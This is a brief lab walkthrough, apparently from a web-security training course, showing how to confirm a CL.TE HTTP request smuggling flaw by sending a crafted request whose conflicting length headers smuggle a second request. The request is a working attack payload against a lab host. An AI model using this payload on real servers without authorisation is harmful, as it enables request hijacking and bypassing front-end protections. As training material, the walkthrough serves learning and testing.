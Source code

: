 # Some cases of HTTP request smuggling

## 1. HTTP request smuggling, confirming a CL.TE vulnerability via differential responses

Using Burp Repeater, issue the following request twice:

```
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 35
Transfer-Encoding: chunked

0

GET /404 HTTP/1.1
X-Ignore: X
```

The second request should receive an HTTP 404 response.

####Note

Although the lab supports HTTP/2, the intended solution requires techniques that are only possible in HTTP/1. You can manually switch protocols in Burp Repeater from the Request attributes section of the Inspector panel.

